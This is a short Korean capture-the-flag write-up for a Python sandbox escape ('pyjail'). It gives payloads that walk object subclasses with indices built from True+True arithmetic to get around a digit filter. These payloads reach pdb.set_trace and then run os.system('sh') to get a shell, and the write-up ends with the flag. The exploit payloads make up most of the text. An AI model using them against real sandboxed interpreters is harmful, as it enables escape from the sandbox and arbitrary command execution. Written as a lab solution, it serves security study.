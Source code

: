 ```python
```

## Exploit

다음과 같은 순서로 탈옥이 가능합니다.

```python
().__class__.__base__.__subclasses__()[[True+True+True+True+True+True+True+True+True+True+True+True].pop()**[True+True].pop()+True+True+True+True+True+True+True+True+True+True+True+True+True+True+True]()()
```

pdb → sandbox

```python
[ y for y in [ x for x in ().__class__.__base__.__subclasses__()[[True+True].pop()**[True+True+True+True+True+True+True].pop()+True+True+True+True+True+True+True+True+True+True+True+True+True].__init__.__globals__.values()] [[True+True].pop()**[True+True+True].pop()].modules.values()][True-True-True-True].set_trace()
``` 

이후 pdb 쉘에서 필터링 없이 자유롭게 공격 가능

```python
"".__class__.__base__.__subclasses__()[141].__init__.__globals__["__builtins__"]["__import__"]("os").system("sh")
```

숫자를 쓰지 못하니 `True+True=2`와 같이 나온다는 점에 착안하여 `제곱수 + 나머지`의 형식으로 값을 산출한뒤 인덱스에 맞는 값으로 나머지 `+` 연산을 진행했습니다.

이후 노가다를 통해 인덱스를 죄다 구한 다음에 `pdb`로 접속해서 쉘 커맨드를 실행하면 탈옥이 가능합니다.

`FortID{Wh3n_7h3_517u4710n_l00k5_1mp0551bl3,_y0u_d0n7_g1v3_up}`

끝!